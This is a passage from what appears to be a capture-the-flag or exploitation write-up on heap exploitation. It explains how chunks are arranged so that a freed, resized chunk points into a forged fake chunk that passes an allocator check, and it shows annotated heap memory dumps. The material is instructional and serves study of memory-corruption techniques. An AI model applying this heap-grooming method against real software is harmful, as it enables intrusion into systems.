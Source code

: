 all the chunks that are between chunks C and B are there just so that when A is resized and freed the pointer &A +0x420 points to area on the heap that we control(our fake chunk inside chunk C)

you might be also wondering what role do the reset(0) calls play. Well if you scroll up a bit you will see that the reset function sets the chnk[0] pointer to 0. So when free is called our chunks that were reset will not be freed.

before:

```
0x56257ccda3a0:	0x0000000000000000	0x0000000000000071 <--- chunk A
0x56257ccda3b0:	0x0000000000000000	0x000056257ccda010 
0x56257ccda3c0:	0x4141414141414141	0x4141414141414141
0x56257ccda3d0:	0x0000000000000000	0x0000000000000000
0x56257ccda3e0:	0x0000000000000000	0x0000000000000000
0x56257ccda3f0:	0x0000000000000000	0x0000000000000000
0x56257ccda400:	0x0000000000000000	0x0000000000000000
0x56257ccda410:	0x0000000000000000	0x0000000000000211 <--- chunk B
0x56257ccda420:	0x4242424242424242	0x4242424242424242
0x56257ccda430:	0x4242424242424242	0x4242424242424242
0x56257ccda440:	0x0000000000000000	0x0000000000000000
0x56257ccda450:	0x0000000000000000	0x0000000000000000
0x56257ccda460:	0x0000000000000000	0x0000000000000000
0x56257ccda470:	0x0000000000000000	0x0000000000000000
0x56257ccda480:	0x0000000000000000	0x0000000000000000
0x56257ccda490:	0x0000000000000000	0x0000000000000000
0x56257ccda4a0:	0x0000000000000000	0x0000000000000000
```

```
0x56257ccda620:	0x0000000000000000	0x0000000000000081
0x56257ccda630:	0x4343434343434343	0x4343434343434343
0x56257ccda640:	0x4343434343434343	0x4343434343434343
0x56257ccda650:	0x4343434343434343	0x4343434343434343
0x56257ccda660:	0x4343434343434343	0x4343434343434343
0x56257ccda670:	0x4343434343434343	0x4343434343434343
0x56257ccda680:	0x4343434343434343	0x4343434343434343
0x56257ccda690:	0x4343434343434343	0x4343434343434343
0x56257ccda6a0:	0x0000000000000000	0x0000000000000081
0x56257ccda6b0:	0x4343434343434343	0x4343434343434343
0x56257ccda6c0:	0x4343434343434343	0x4343434343434343
0x56257ccda6d0:	0x4343434343434343	0x4343434343434343
0x56257ccda6e0:	0x4343434343434343	0x4343434343434343
0x56257ccda6f0:	0x4343434343434343	0x4343434343434343
0x56257ccda700:	0x4343434343434343	0x4343434343434343
0x56257ccda710:	0x4343434343434343	0x4343434343434343
0x56257ccda720:	0x0000000000000000	0x0000000000000081
0x56257ccda730:	0x4747474747474747	0x4747474747474747
0x56257ccda740:	0x4747474747474747	0x4747474747474747
0x56257ccda750:	0x4747474747474747	0x4747474747474747
0x56257ccda760:	0x4747474747474747	0x4747474747474747
0x56257ccda770:	0x4747474747474747	0x4747474747474747
0x56257ccda780:	0x4747474747474747	0x4747474747474747
0x56257ccda790:	0x4747474747474747	0x4747474747474747
0x56257ccda7a0:	0x0000000000000000	0x0000000000000081
0x56257ccda7b0:	0x5252525252525252	0x5252525252525252
0x56257ccda7c0:	0x0000000000000420	0x0000000000000061 <--- fake chunk to pass the check
0x56257ccda7d0:	0x0000000000000000	0x0000000000000000
0x56257ccda7e0:	0x0000000000000000	0x0000000000000000
0x56257ccda7f0:	0x0000000000000000	0x0000000000000000
0x56257ccda800:	0x0000000000000000	0x0000000000000000
0x56257ccda810:	0x0000000000000000	0x0000000000000000
0x56257ccda820:	0x0000000000000000	0x00000000000207e1 <--- top chunk
```
